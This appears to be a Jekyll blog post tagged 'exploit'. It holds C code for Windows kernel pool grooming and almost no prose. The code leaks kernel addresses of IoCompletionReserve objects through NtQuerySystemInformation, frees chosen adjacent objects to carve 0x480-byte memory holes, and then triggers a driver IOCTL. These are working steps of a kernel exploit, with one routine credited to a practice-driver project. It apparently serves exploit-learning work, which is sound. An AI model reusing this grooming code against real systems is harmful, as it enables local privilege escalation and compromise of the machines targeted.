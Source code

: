 ```yaml
---
layout: post
title: "findMemoryWindows()"
category: exploit
tagline: "Supporting tagline"
tags: [exploit]
---
```

{% include JB/setup %}

## findMemoryWindows()

### struct _PUBLIC_OBJECT_TYPE_INFORMATION
{% highlight C %}
typedef struct _PUBLIC_OBJECT_TYPE_INFORMATION{
	UNICODE_STRING	TypeName;
	ULONG			Reserved[0x2048];
} PUBLIC_OBJECT_TYPE_INFORMATION, *PPUBLIC_OBJECT_TYPE_INFORMATION;
{% endhighlight %}

### findMemoryWindows()
{% highlight C %}
VOID findMemoryWindows(){

	PSYSTEM_HANDLE_INFORMATION_EX handleInfo;
	getHandles(&handleInfo);

	size_t numRetrievedHandles = handleInfo->NumberOfHandles;
	PSYSTEM_HANDLE_TABLE_ENTRY_INFO_EX handleEntry = handleInfo->Handles;

	HMODULE h = LoadLibraryA("ntdll.dll");
	if(!h){
		printf("[-]Failed to load module\n");
		exit(1);
	}
	NtQueryObject pNtQueryObject = (NtQueryObject)GetProcAddress(h, "NtQueryObject");

	DWORD obj_addr[50000][2];
	int j = 0;

	for (size_t i = 0; i < numRetrievedHandles; i++){
		if(handleEntry->UniqueProcessId == (HANDLE) GetCurrentProcessId()){
			PUBLIC_OBJECT_TYPE_INFORMATION public_object_type_information;
			DWORD size = sizeof(public_object_type_information);
			NTSTATUS st = pNtQueryObject(handleEntry->HandleValue, ObjectTypeInformation, &public_object_type_information, size, NULL);
			if(!NT_SUCCESS(st)){
				printf("NtQueryObject() Failed!\n");
				__asm int 3

			}
			wchar_t IoCoObj[20] = L"IoCompletionReserve";
			if(!wcscmp(IoCoObj, public_object_type_information.TypeName.Buffer)){
				// printf("IoCo: %ls\n", public_object_type_information.TypeName.Buffer);
				// printf("handleEntry->Object: 0x%08x\n", (DWORD) handleEntry->Object);

				// printf("handleEntry->HandleValue: %d\n", handleEntry->HandleValue);
				obj_addr[j][0] = (DWORD) handleEntry->Object;
				obj_addr[j][1] = (DWORD) handleEntry->HandleValue;
				j++;
			}
		}
		handleEntry++;
	}
	qsort(obj_addr, 50000, 2*sizeof(DWORD), comp);

	
	DWORD alloc;
	DWORD obj;
	int hole_count = 0;
	for(int i = 0; i < 50000; i++){
		obj = obj_addr[i][0];
		alloc = obj_addr[i][0] - 0x30;
		if((alloc & 0xfffff000) == alloc){
			if(obj_addr[i + 2][0] == obj + 0x100 &&
				obj_addr[i + 3][0] == obj + 0x160 &&
				obj_addr[i + 4][0] == obj + 0x1c0 &&
				obj_addr[i + 5][0] == obj + 0x220 &&
				obj_addr[i + 6][0] == obj + 0x280 &&
				obj_addr[i + 7][0] == obj + 0x2e0 &&
				obj_addr[i + 8][0] == obj + 0x340 &&
				obj_addr[i + 9][0] == obj + 0x3a0 &&
				obj_addr[i + 10][0] == obj + 0x400 &&
				obj_addr[i + 11][0] == obj + 0x460 &&
				obj_addr[i + 12][0] == obj + 0x4c0 &&
				obj_addr[i + 13][0] == obj + 0x520 &&
				obj_addr[i + 14][0] == obj + 0x580){

				/*
				printf("[Adjecient Memory Chunk %d]\n", hole_count);
				printf("obj_addr[i][0] = 0x%08x\n", obj_addr[i][0]);
				printf("obj_addr[i + 2][0] = 0x%08x\n", obj_addr[i + 2][0]);
				printf("obj_addr[i + 3][0] = 0x%08x\n", obj_addr[i + 3][0]);
				printf("obj_addr[i + 4][0] = 0x%08x\n", obj_addr[i + 4][0]);
				printf("obj_addr[i + 5][0] = 0x%08x\n", obj_addr[i + 5][0]);
				printf("obj_addr[i + 6][0] = 0x%08x\n", obj_addr[i + 6][0]);
				printf("obj_addr[i + 7][0] = 0x%08x\n", obj_addr[i + 7][0]);
				printf("obj_addr[i + 8][0] = 0x%08x\n", obj_addr[i + 8][0]);
				printf("obj_addr[i + 9][0] = 0x%08x\n", obj_addr[i + 9][0]);
				printf("obj_addr[i + 10][0] = 0x%08x\n", obj_addr[i + 10][0]);
				printf("obj_addr[i + 11][0] = 0x%08x\n", obj_addr[i + 11][0]);
				printf("obj_addr[i + 12][0] = 0x%08x\n", obj_addr[i + 12][0]);
				printf("obj_addr[i + 13][0] = 0x%08x\n", obj_addr[i + 13][0]);
				printf("obj_addr[i + 14][0] = 0x%08x\n\n\n", obj_addr[i + 14][0]);
				*/

				// Create Memory Windows of 0x480 bytes (0x60*12)
				CloseHandle((HANDLE) obj_addr[i + 2][1]);
				CloseHandle((HANDLE) obj_addr[i + 3][1]);
				CloseHandle((HANDLE) obj_addr[i + 4][1]);
				CloseHandle((HANDLE) obj_addr[i + 5][1]);
				CloseHandle((HANDLE) obj_addr[i + 6][1]);
				CloseHandle((HANDLE) obj_addr[i + 7][1]);
				CloseHandle((HANDLE) obj_addr[i + 8][1]);
				CloseHandle((HANDLE) obj_addr[i + 9][1]);
				CloseHandle((HANDLE) obj_addr[i + 10][1]);
				CloseHandle((HANDLE) obj_addr[i + 11][1]);
				CloseHandle((HANDLE) obj_addr[i + 12][1]);
				CloseHandle((HANDLE) obj_addr[i + 13][1]);

				hole_count++;
			}
		}
	}

	triggerIOCTL();

	for(int i = 0; i < 50000; i++){
		obj = obj_addr[i][0];
		alloc = obj_addr[i][0] - 0x30;
		if((alloc & 0xfffff000) == alloc){
			if(obj_addr[i + 14][0] == obj + 0x580)
				CloseHandle((HANDLE) obj_addr[i + 14][1]);
		}
	}
	printf("Total Windows = %d\n", hole_count);

}
{% endhighlight %}

### getHandles(PSYSTEM_HANDLE_INFORMATION_EX* handleInfo)
{% highlight C %}
BOOL getHandles(PSYSTEM_HANDLE_INFORMATION_EX* handleInfo)
{
	// Source: https://github.com/clymb3r/KdExploitMe/blob/master/ExploitDemos/KernelAddressLeak.cpp

	BOOL functionSuccess = false;
	ULONG handleInfoSize = sizeof(SYSTEM_HANDLE_INFORMATION_EX)+(sizeof(SYSTEM_HANDLE_TABLE_ENTRY_INFO_EX)* 10000);
	NTSTATUS status = STATUS_INFO_LENGTH_MISMATCH; //Make status be an error so the loop starts.
	*handleInfo = NULL;

	HMODULE hModule = LoadLibraryW(L"ntdll.dll");
	NtQuerySystemInformation pNtQuerySystemInformation = (NtQuerySystemInformation)GetProcAddress(hModule, "NtQuerySystemInformation");
	FreeLibrary(hModule);
	if (pNtQuerySystemInformation == NULL){
		printf("- Error: Cannot retrieve NtQuerySystemInformation address.\n");
		goto Cleanup;
	}

	ULONG requiredSize = 0;
	while (status == STATUS_INFO_LENGTH_MISMATCH){

		if (*handleInfo){
			free(*handleInfo);
		}

		//Allocate space for NtQuerySystemInformation and call it
		*handleInfo = (PSYSTEM_HANDLE_INFORMATION_EX)malloc(handleInfoSize);
		ZeroMemory(*handleInfo, handleInfoSize);
		status = (*pNtQuerySystemInformation)((SYSTEM_INFORMATION_CLASS) 64, *handleInfo, handleInfoSize, &requiredSize);
		//If there isn't enough space in the buffer, increase the buffer size
		if (NT_SUCCESS(status)){
			break;
		}
		else if (status == STATUS_INFO_LENGTH_MISMATCH){
			ULONG additionalSpace = sizeof(SYSTEM_HANDLE_TABLE_ENTRY_INFO_EX)* 1000;
			if (ULONG_MAX - additionalSpace < requiredSize){
				printf("- Error: Looping error increasing buffersize for NtQuerySystemInformation.\n");
				goto Cleanup;
			}
			handleInfoSize = requiredSize + additionalSpace;
		} else {
			printf("- Error: Unexpected error from NtQuerySystemInformation. Error: 0x%x\n", status);
			goto Cleanup;
		}
	}
	printf("+ QueryNtHandles returning success: NtQuerySystemInformation returned %i entries.\n", (*handleInfo)->NumberOfHandles);
	functionSuccess = true;

Cleanup:
	if (!functionSuccess){
		if (*handleInfo){
			free(*handleInfo);
			*handleInfo = NULL;
		}
	}
	return functionSuccess;
}
{% endhighlight %}